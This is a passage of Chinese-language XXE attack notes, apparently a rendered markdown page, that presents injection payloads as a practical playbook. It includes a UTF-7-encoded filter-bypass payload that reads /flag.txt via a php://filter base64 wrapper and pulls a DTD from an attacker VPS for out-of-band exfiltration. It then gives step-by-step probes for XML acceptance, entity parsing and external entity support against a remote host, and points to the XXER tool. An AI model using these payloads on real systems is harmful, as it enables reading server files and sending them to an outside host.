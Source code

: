 ```xml
<!-- 绕过 -->
<?xml version="1.0" encoding="utf-7"?>
+ADwAIQ-DOCTYPE test +AFs-
+ADwAIQ-ENTITY +ACU- file SYSTEM +ACI-php://filter/read+AD0-convert-base64.encode/resource+AD0-/flag.txt+ACIAPg-
+ADwAIQ-ENTITY +ACU- remote SYSTEM +ACI-http://vps-ip/test.dtd+ACIAPg-
+ACU-remote+ADs-
+ACU-dtd+ADs-
+ACU-xxe+ADs-
+AF0APg-
```



## 五、实战思路

### 1、常规

​	1.1、检测Accept是否接受XML类型

```xml
<!-- 接受才能下一步 -->
不接受则手动添加 Content-Type:application/xml 或 text/xml
```

​	1.2、检测XML是否会被解析

```xml
<!-- 正常解析才能下一步 -->
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE ANY [
	<!ENTITY test "this is test" >
]>
<root>&test;</root>
```

​	1.2、检测服务器是否支持外部实体

```xml
<!-- 正常接收才能下一步 -->
<?xml version="1.0" encoding="utf-8" >
<!DOCTYPE ANY [
	<!ENTITY % shit SYSTEM "http://ip/1.xml">
%shit;
]>
```



## 六、相关工具

### 1、XXER

```xml
<!-- 下载 -->
https://github.com/TheTwitchy/xxer
```
